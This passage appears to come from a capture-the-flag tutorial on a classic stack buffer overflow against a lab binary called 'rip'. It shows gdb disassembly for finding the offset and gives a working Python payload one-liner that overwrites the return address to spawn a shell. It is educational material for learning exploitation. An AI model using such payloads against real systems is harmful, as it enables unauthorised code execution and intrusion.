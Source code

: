 We know that our buffer is used as argument for `strcpy` and
`strncmp`,  so we just need to check what address (from the stack)
pushed to the stack before these functions are called.

Indeed, just before `strcpy` is called we have:

```
0x0804852c <+21>:	push   DWORD PTR [ebp+0x8]
0x0804852f <+24>:	lea    eax,[ebp-0x18]
0x08048532 <+27>:	push   eax
```

And just before calling `strncmp`:

```
0x08048540 <+41>:	lea    eax,[ebx-0x1971]
0x08048546 <+47>:	push   eax
0x08048547 <+48>:	lea    eax,[ebp-0x18]
0x0804854a <+51>:	push   eax

```

Obs .: In this case, all the information we just gathered using
`gdb` could be fetched using `objdump -d -M intel-mnemonic rip`.

In both snippets, the common address is **ebp-0x18**. Which means
that after the 18th byte our buffer start writing EBP
(which has 4 bytes) and then our target: EIP (also 4 bytes).

All that is left to do now is write the payload and give it
as the input to the program:

```
./rip `python -c "print(b'A'*0x18 + b'BBBB' + b'\x9b\x84\x04\x08')"`
```
Or, using python3:
```
./rip `python3 -c "__import__('sys').stdout.buffer.write(b'A'*0x18 + b'BBBB' + b'\x9b\x84\x04\x08')"`
```

Here we have 24 (0x18) bytes to fill the space between the EBP
and the start of the buffer, after that we have `'BBBB'` to fill
the EBP, and finally we have the value that will be the new
Return Address.

Obs.: My machine uses little-endian, that's why the address byte
order is backwards. Yours is probably too (most are nowadays)

Running any of the above commands (with the proper addresses)
should grant you a shell!

### Getting Shells in the Wild

Although we managed to get the shell, our methodology could be improved
to work in other scenarios.

1. What if `impossible_shell` was a more complex function?
